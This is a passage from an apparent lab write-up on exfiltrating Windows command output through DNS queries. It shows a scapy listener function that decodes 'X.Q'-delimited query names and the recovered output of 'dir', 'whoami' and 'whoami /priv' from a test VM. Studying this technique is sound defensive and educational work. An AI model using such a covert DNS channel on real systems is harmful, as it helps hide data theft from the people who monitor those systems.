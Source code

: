 

That gives 6 of the 7 lines (`..` still breaks things):



    QVolumeX.QinX.QdriveX.QCX.QhasX.QnoX.Qlabel.X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    QVolumeX.QSerialX.QNumberX.QisX.QF06E-7663X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    QDirectoryX.QofX.QC:Users0xdftestX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    Q02/25/2019X.Q07:04X.QAMX.Q<DIR>X.Q.X.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    Q0X.QFile(s)X.Q0X.QbytesX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.
    Q2X.QDir(s)X.Q4,912,214,016X.QbytesX.QfreeX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.



### Updating DNS Parse

Looking at the output above, I'll notice that each field is broken by
`X.Q`. So, to get this back to what I'm looking for, I'll update the
`parse_packet` function to replace `X.Q` with space. I'll also drop the
leading character (`Q`) and the trailing two (`X.`):



     23     def parse_packet(self, p):
     24         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
     25             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     26             print(domain[1:-2].replace('X.Q',' ').strip())



Now I can run commands from the VM and see results. I'll show a couple
examples with the output of the command on the VM, followed by what I
get through DNS with the script.

`whoami`:



    C:\Users\0xdf\test>whoami
    sevener\0xdf





    sevener0xdf



`whoami /priv`:



    C:\Users\0xdf\test>whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                          State
    ============================= ==================================== ========
    SeShutdownPrivilege           Shut down the system                 Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
    SeUndockPrivilege             Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
    SeTimeZonePrivilege           Change the time zone                 Disabled
